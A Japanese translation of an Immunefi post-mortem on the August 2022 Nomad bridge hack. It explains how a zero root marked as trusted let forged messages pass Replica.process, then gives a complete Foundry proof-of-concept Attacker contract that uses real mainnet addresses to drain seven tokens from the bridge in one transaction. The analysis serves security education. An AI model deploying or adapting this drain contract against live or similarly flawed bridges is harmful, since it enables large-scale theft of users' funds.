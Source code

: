 # オンチェーン・トランザクションのデバッグ：7. ハッキング分析：Nomad Bridge (2022/08)

著者: [gmhacker.eth](https://twitter.com/realgmhacker)

翻訳: [「」](https://x.com/yuu11111_?s=21)

## はじめに

Nomad ブリッジは 2022 年 8 月 1 日にハッキングされ、ロックされていた資金 1 億 9,000 万ドルが流出しました。最初の攻撃者が脆弱性を悪用して成功を収めた後、他の“ダークフォレスト”の住人たち（暗号資産の世界で機会を伺う者たち）も便乗してエクスプロイトを再現し、最終的に「クラウドソース型」の大規模なハッキングへと発展しました。

Nomad のプロキシ契約（コントラクト）の実装における定例のアップグレードにおいて、ゼロハッシュ値が信頼できるルートとしてマークされたことで、メッセージが自動的に承認されるようになりました。ハッカーはこの脆弱性を利用してブリッジコントラクトを偽装し、資金のロック解除を不正に実行させました。

[こちら](https://dashboard.tenderly.co/tx/mainnet/0xa5fe9d044e4f3e5aa5bc4c0709333cd2190cba0f4e7f16bcf73f49f83e4a5460)で確認できる最初の成功したトランザクションだけで、ブリッジから 100 WBTC（当時約 230 万ドル）が流出しました。フラッシュローンや他の DeFi プロトコルとの複雑な連携は一切必要ありませんでした。攻撃は単に、適切なメッセージ入力を用いてコントラクトの関数を呼び出すだけで、攻撃者はプロトコルの流動性から次々と資金を奪い続けました。

残念なことに、トランザクションが単純で再現可能であったため、他の人々も不正な利益の一部を手に入れました。[Rekt News](https://rekt.news/nomad-rekt/)が報じたように、「DeFi の原則に忠実に、このハッキングはパーミッションレス（誰でも参加可能）だった」。

この記事では、Nomad ブリッジの Replica コントラクトで悪用された脆弱性を分析し、その後、ローカルフォークに対してテストすることで、1 回のトランザクションで全ての流動性を流出させる独自の攻撃バージョンを作成します。完全な PoC（Proof of Concept）は[こちら](https://github.com/immunefi-team/hack-analysis-pocs/tree/main/src/nomad-august-2022)で確認できます。

この記事は、Immunefi のスマートコントラクトトリアージャーである[gmhacker.eth](https://twitter.com/realgmhacker)によって執筆されました。

## 背景

Nomad はクロスチェーン通信プロトコルであり、特にイーサリアム、Moonbeam、およびその他のチェーン間でトークンをブリッジすることを可能にします。Nomad コントラクトに送信されたメッセージは、オプティミスティック検証メカニズムに従って、オフチェーンのエージェントを通じて検証され、他のチェーンに転送されます。

ほとんどのクロスチェーンブリッジングプロトコルと同様に、Nomad のトークンブリッジは、一方の側でトークンをロックし、もう一方の側で代表トークンをミントするプロセスによって、異なるチェーン間で価値を転送することができます。これらの代表トークンは最終的に焼却（バーン）されて元の資金をロック解除できる（つまり、トークンのネイティブチェーンに戻す）ため、IOU（借用証書）として機能し、元の ERC-20 と同じ経済的価値を持ちます。このブリッジの一般的な側面が、複雑なスマートコントラクト内に大量の資金が蓄積される原因となり、ハッカーにとって非常に魅力的な標的となります。

<div align=center>
<img src="https://user-images.githubusercontent.com/107821372/217752487-9580592c-98ed-4690-b330-d211d795d276.png" alt="Cover" width="80%"/>
</div>

ロック＆ミントのプロセス、出典: [MakerDAO のブログ](https://blog.makerdao.com/what-are-blockchain-bridges-and-why-are-they-important-for-defi/)

Nomad の場合、全てのサポートされているチェーンにデプロイされている`Replica`と呼ばれるコントラクトが、Merkle ツリー構造でメッセージを検証する役割を担っています。プロトコル内の他のコントラクトは、インバウンドメッセージの認証のためにこれに依存しています。メッセージが検証されると、それは Merkle ツリーに保存され、新しいコミットされたツリーのルートが生成され、処理が承認されます。

## 根本原因

Nomad ブリッジがどのようなものであるかを大まかに理解したところで、2022 年 8 月のハッキングで悪用された根本原因の脆弱性を探るために、実際のスマートコントラクトコードを掘り下げていきます。そのためには、`Replica`コントラクトをさらに深く見ていく必要があります。

```
   function process(bytes memory _message) public returns (bool _success) {
       // ensure message was meant for this domain
       bytes29 _m = _message.ref(0);
       require(_m.destination() == localDomain, "!destination");
       // ensure message has been proven
       bytes32 _messageHash = _m.keccak();
       require(acceptableRoot(messages[_messageHash]), "!proven");
       // check re-entrancy guard
       require(entered == 1, "!reentrant");
       entered = 0;
       // update message status as processed
       messages[_messageHash] = LEGACY_STATUS_PROCESSED;
       // call handle function
       IMessageRecipient(_m.recipientAddress()).handle(
           _m.origin(),
           _m.nonce(),
           _m.sender(),
           _m.body().clone()
       );
       // emit process results
       emit Process(_messageHash, true, "");
       // reset re-entrancy guard
       entered = 1;
       // return true
       return true;
   }
```

<div align=center>

スニペット 1: Replica.sol の `process` 関数、[元のコード](https://gist.github.com/gists-immunefi/f8ef00be9e1c5dd4d879a418966191e0#file-nomad-hack-analysis-1-sol)。

</div>

`Replica`コントラクトの`process`[関数](https://etherscan.io/address/0xb92336759618f55bd0f8313bd843604592e27bd8#code%23F1%23L179)は、メッセージを最終的な受信者にディスパッチする役割を担っています。これは、入力メッセージがすでに証明されている場合、つまりメッセージがすでに Merkle ツリーに追加され、承認された信頼できるルートにつながっている場合にのみ成功します。このチェックは、メッセージハッシュに対して、`acceptableRoot`ビュー関数を使用して行われます。この関数は、確認されたルートマッピングから読み取ります。

```
   function initialize(
       uint32 _remoteDomain,
       address _updater,
       bytes32 _committedRoot,
       uint256 _optimisticSeconds
   ) public initializer {
       __NomadBase_initialize(_updater);
       // set storage variables
       entered = 1;
       remoteDomain = _remoteDomain;
       committedRoot = _committedRoot;
       // pre-approve the committed root.
       confirmAt[_committedRoot] = 1;
       _setOptimisticTimeout(_optimisticSeconds);
   }
```

<div align=center>

スニペット 2: Replica.sol の `initialize` 関数、[元のコード](https://gist.github.com/gists-immunefi/4792c4bb10d3f73648b4b0f86e564ac9#file-nomad-hack-analysis-2-sol)。

</div>

あるプロキシコントラクトの実装でアップグレードが行われると、アップグレードロジックは一度だけ呼び出される初期化関数を実行する場合があります。この関数は、いくつかの初期状態値を設定します。特に、[4 月 21 日のアップグレード](https://openchain.xyz/trace/ethereum/0x99662dacfb4b963479b159fc43c2b4d048562104fe154a4d0c2519ada72e50bf)では、事前に承認されたコミット済みルートとして 0x00 が渡され、それが`confirmAt`マッピングに保存されました。ここに脆弱性が現れました。

`process()`関数に戻ると、`messages`マッピング上のメッセージハッシュをチェックすることに依存していることがわかります。このマッピングは、メッセージを処理済みとしてマークする役割を担っており、攻撃者が同じメッセージをリプレイできないようにしています。

EVM スマートコントラクトのストレージの特殊な側面として、すべてのスロットが実質的にゼロ値で初期化されるという点があります。つまり、ストレージ内の未使用のスロットを読み取っても、例外は発生せず、0x00 が返されます。このことから、Solidity マッピング上の未使用のキーはすべて 0x00 を返すという結論が導き出されます。このロジックに従い、メッセージハッシュが`messages`マッピングに存在しない場合、0x00 が返され、それが`acceptableRoot`関数に渡されます。そして、0x00 が信頼されたルートとして設定されているため、この関数は true を返します。メッセージは処理済みとしてマークされますが、誰でも簡単にメッセージを変更して新しい未使用のメッセージを作成し、再送信することができます。

入力メッセージは、特定の形式で様々なパラメータをエンコードします。その中で、ブリッジから資金をロック解除するメッセージには、受信者のアドレスが含まれています。そのため、最初の攻撃者が[成功したトランザクション](https://dashboard.tenderly.co/tx/mainnet/0xa5fe9d044e4f3e5aa5bc4c0709333cd2190cba0f4e7f16bcf73f49f83e4a5460)を実行した後、メッセージ形式をデコードする方法を知っている人なら誰でも、単に受信者アドレスを変更して攻撃トランザクションをリプレイするだけで、今度は新しいアドレスに利益をもたらす異なるメッセージで攻撃を仕掛けることができました。

## Proof of Concept

Nomad プロトコルを危険にさらした脆弱性を理解したところで、独自の概念実証（PoC）を構築できます。`Replica`関数の`process`関数を、流出させたい特定のトークンごとに一度呼び出すための特定のメッセージを作成し、単一のトランザクションでプロトコルを破綻させます。

まず、アーカイブアクセスが可能な RPC プロバイダーを選択します。このデモンストレーションでは、Ankr が提供する[無料のパブリック RPC アグリゲーター](https://www.ankr.com/rpc/eth/)を使用します。フォークブロックとして、最初のハッキングトランザクションの 1 ブロック前であるブロック番号 15259100 を選択します。

私たちの PoC は、成功するために 1 回のトランザクションでいくつかのステップを実行する必要があります。以下は、攻撃 PoC で実装する内容の概要です。

1.  特定の ERC-20 トークンを選択し、Nomad ERC-20 ブリッジコントラクトの残高を確認します。
2.  資金をロック解除するための正しいパラメータ（受取人として攻撃者のアドレス、ロック解除する資金の全トークン残高など）を含むメッセージペイロードを生成します。
3.  脆弱な`process`関数を呼び出し、これによりトークンが受取人アドレスに転送されます。
4.  ブリッジ残高に重要な存在を持つ様々な ERC-20 トークンをループ処理し、同様の方法でそれらの資金を流出させます。

段階的にコードを記述し、最終的に PoC 全体がどのように見えるかを確認します。Foundry を使用します。

## 攻撃

```
pragma solidity ^0.8.13;

import "@openzeppelin/token/ERC20/ERC20.sol";

interface IReplica {
   function process(bytes memory _message) external returns (bool _success);
}

contract Attacker {
   address constant REPLICA = 0x5D94309E5a0090b165FA4181519701637B6DAEBA;
   address constant ERC20_BRIDGE = 0x88A69B4E698A4B090DF6CF5Bd7B2D47325Ad30A3;

   // tokens
   address [] public tokens = [
       0x2260FAC5E5542a773Aa44fBCfeDf7C193bc2C599, // WBTC
       0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2, // WETH
       0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48, // USDC
       0xdAC17F958D2ee523a2206206994597C13D831ec7, // USDT
       0x6B175474E89094C44Da98b954EedeAC495271d0F, // DAI
       0x3432B6A60D23Ca0dFCa7761B7ab56459D9C964D0, // FRAX
       0xD417144312DbF50465b1C641d016962017Ef6240  // CQT
   ];

   function attack() external {
       for (uint i = 0; i < tokens.length; i++) {
           address token = tokens[i];
           uint256 amount_bridge = IERC20(token).balanceOf(ERC20_BRIDGE);

           bytes memory payload = genPayload(msg.sender, token, amount_bridge);
           bool success = IReplica(REPLICA).process(payload);
           require(success, "Failed to process the payload");
       }
   }

   function genPayload(
       address recipient,
       address token,
       uint256 amount
   ) internal pure returns (bytes memory) {}
}
```

<div align=center>

スニペット 3: 攻撃コントラクトの開始部分、[元のコード](https://gist.github.com/gists-immunefi/4305df38623ddcaa11812a9c186c73ac#file-nomad-hack-analysis-3-sol)。

</div>

まず、`Attacker`コントラクトを作成します。コントラクトへのエントリーポイントは`attack`関数で、これは様々なトークンアドレスをループする単純な`for`ループです。ここでは、処理対象の特定のトークンに対する`ERC20_BRIDGE`（イーサリアム上でロックされた資金を保持する Nomad ERC-20 ブリッジコントラクトのアドレス）の残高を確認します。

その後、悪意のあるメッセージペイロードが生成されます。各ループイテレーションで変更されるパラメータは、トークンアドレスと転送される資金の量です。生成されたメッセージは、`IReplica.process`関数への入力となります。すでに確立したように、この関数はエンコードされたメッセージを Nomad プロトコル上の正しいエンドコントラクトに転送し、ロック解除と転送リクエストを実現させ、効果的にブリッジロジックをだまします。

```

contract Attacker {
   address constant BRIDGE_ROUTER = 0xD3dfD3eDe74E0DCEBC1AA685e151332857efCe2d;

   // Nomad domain IDs
   uint32 constant ETHEREUM = 0x657468;   // "eth"
   uint32 constant MOONBEAM = 0x6265616d; // "beam"

   function genPayload(
       address recipient,
       address token,
       uint256 amount
   ) internal pure returns (bytes memory payload) {
       payload = abi.encodePacked(
           MOONBEAM,                           // Home chain domain
           uint256(uint160(BRIDGE_ROUTER)),    // Sender: bridge
           uint32(0),                          // Dst nonce
           ETHEREUM,                           // Dst chain domain
           uint256(uint160(ERC20_BRIDGE)),     // Recipient (Nomad ERC20 bridge)
           ETHEREUM,                           // Token domain
           uint256(uint160(token)),            // token id (e.g. WBTC)
           uint8(0x3),                         // Type - transfer
           uint256(uint160(recipient)),        // Recipient of the transfer
           uint256(amount),                    // Amount
           uint256(0)                          // Optional: Token details hash
                                               // keccak256(
                                               //     abi.encodePacked(
                                               //         bytes(tokenName).length,
                                               //         tokenName,
                                               //         bytes(tokenSymbol).length,
                                               //         tokenSymbol,
                                               //         tokenDecimals
                                               //     )
                                               // )
       );
   }
}
```

<div align=center>

スニペット 4: 正しい形式とパラメータで悪意のあるメッセージを生成する、[元のコード](https://gist.github.com/gists-immunefi/2a5fbe2e6034dd30534bdd4433b52a29#file-nomad-hack-analysis-4-sol)。

</div>

生成されるメッセージは、プロトコルによって適切に解凍されるように、様々なパラメータでエンコードされる必要があります。重要なのは、メッセージの転送経路（ブリッジルーターと ERC-20 ブリッジのアドレス）を指定する必要があることです。また、メッセージをトークン転送としてフラグ付けする必要があるため、タイプとして`0x3`の値を指定します。

最後に、私たちに利益をもたらすパラメータ、つまり正しいトークンアドレス、転送する金額、そしてその転送の受取人を指定する必要があります。すでに述べたように、これにより`Replica`コントラクトによって処理されたことのない全く新しいオリジナルのメッセージが確実に作成され、以前の説明に従って、それは実際に有効であるとみなされます。

驚くべきことに、これでエクスプロイトロジック全体が完成します。Foundry のログを含めても、私たちの PoC はわずか 87 行のコードに過ぎません。

フォークされたブロック番号に対してこの PoC を実行すると、以下の利益が得られます。

- 1,028 WBTC
- 22,876 WETH
- 87,459,362 USDC
- 8,625,217 USDT
- 4,533,633 DAI
- 119,088 FXS
- 113,403,733 CQT

## 結論

Nomad ブリッジの悪用は、2022 年最大のハッキングの一つでした。この攻撃は、プロトコル全体におけるセキュリティの重要性を強調しています。この特定の場合では、プロキシの実装におけるたった 1 回のアップグレードが、いかにして重大な脆弱性を引き起こし、ロックされたすべての資金を危険にさらす可能性があるかを学びました。さらに、開発時には、ストレージスロットの 0x00 のデフォルト値、特にマッピングを含むロジックに関して注意を払う必要があります。また、このような一般的な脆弱性につながる可能性のある値に対して、いくつかの単体テストを設定しておくことも良いことです。

資金の一部を流出させた一部のスカベンジャー（漁り屋）アカウントが資金をプロトコルに返還したことに留意すべきです。ブリッジを再開する[計画](https://medium.com/nomad-xyz-blog/nomad-bridge-relaunch-guide-3a4ef6624f90)があり、返還された資産は、回収された資金の比例配分によってユーザーに分配される予定です。盗まれた資金は、Nomad の[リカバリーウォレット](https://etherscan.io/address/0x94a84433101a10aeda762968f6995c574d1bf154)に返還することができます。

以前に指摘したように、この PoC は実際にハッキングを強化し、1 回のトランザクションで全ての TVL（Total Value Locked：ロックされた総価値）を流出させます。これは実際に発生した攻撃よりも単純な攻撃です。Foundry の便利なログを追加した PoC 全体は次のようになります。

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

import "@openzeppelin/token/ERC20/ERC20.sol";
import "forge-std/console.sol";

interface IReplica {
   function process(bytes memory _message) external returns (bool _success);
}

contract Attacker {
   address constant REPLICA = 0x5D94309E5a0090b165FA4181519701637B6DAEBA;
   address constant BRIDGE_ROUTER = 0xD3dfD3eDe74E0DCEBC1AA685e151332857efCe2d;
   address constant ERC20_BRIDGE = 0x88A69B4E698A4B090DF6CF5Bd7B2D47325Ad30A3;

   // Nomad domain IDs
   uint32 constant ETHEREUM = 0x657468;   // "eth"
   uint32 constant MOONBEAM = 0x6265616d; // "beam"

   // tokens
   address [] public tokens = [
       0x2260FAC5E5542a773Aa44fBCfeDf7C193bc2C599, // WBTC
       0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2, // WETH
       0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48, // USDC
       0xdAC17F958D2ee523a2206206994597C13D831ec7, // USDT
       0x6B175474E89094C44Da98b954EedeAC495271d0F, // DAI
       0x3432B6A60D23Ca0dFCa7761B7ab56459D9C964D0, // FRAX
       0xD417144312DbF50465b1C641d016962017Ef6240  // CQT
   ];

   function attack() external {
       for (uint i = 0; i < tokens.length; i++) {
           address token = tokens[i];
           uint256 amount_bridge = ERC20(token).balanceOf(ERC20_BRIDGE);

           console.log(
               "[*] Stealing",
               amount_bridge / 10**ERC20(token).decimals(),
               ERC20(token).symbol()
           );
           console.log(
               "    Attacker balance before:",
               ERC20(token).balanceOf(msg.sender)
           );

           // Generate the payload with all of the tokens stored on the bridge
           bytes memory payload = genPayload(msg.sender, token, amount_bridge);

           bool success = IReplica(REPLICA).process(payload);
           require(success, "Failed to process the payload");

           console.log(
               "    Attacker balance after: ",
               IERC20(token).balanceOf(msg.sender) / 10**ERC20(token).decimals()
           );
       }
   }

   function genPayload(
       address recipient,
       address token,
       uint256 amount
   ) internal pure returns (bytes memory payload) {
       payload = abi.encodePacked(
           MOONBEAM,                           // Home chain domain
           uint256(uint160(BRIDGE_ROUTER)),    // Sender: bridge
           uint32(0),                          // Dst nonce
           ETHEREUM,                           // Dst chain domain
           uint256(uint160(ERC20_BRIDGE)),     // Recipient (Nomad ERC20 bridge)
           ETHEREUM,                           // Token domain
           uint256(uint160(token)),          // token id (e.g. WBTC)
           uint8(0x3),                         // Type - transfer
           uint256(uint160(recipient)),      // Recipient of the transfer
           uint256(amount),                  // Amount
           uint256(0)                          // Optional: Token details hash
                                               // keccak256(
                                               //     abi.encodePacked(
                                               //         bytes(tokenName).length,
                                               //         tokenName,
                                               //         bytes(tokenSymbol).length,
                                               //         tokenSymbol,
                                               //         tokenDecimals
                                               //     )
                                               // )
       );
   }
}
```

<div align=center>

スニペット 5: 全てのコード、[元のコード](https://gist.github.com/gists-immunefi/2bdffe6f9683c9b3ab810e1fb7fe4aff#file-nomad-hack-analysis-5-sol)。

</div>
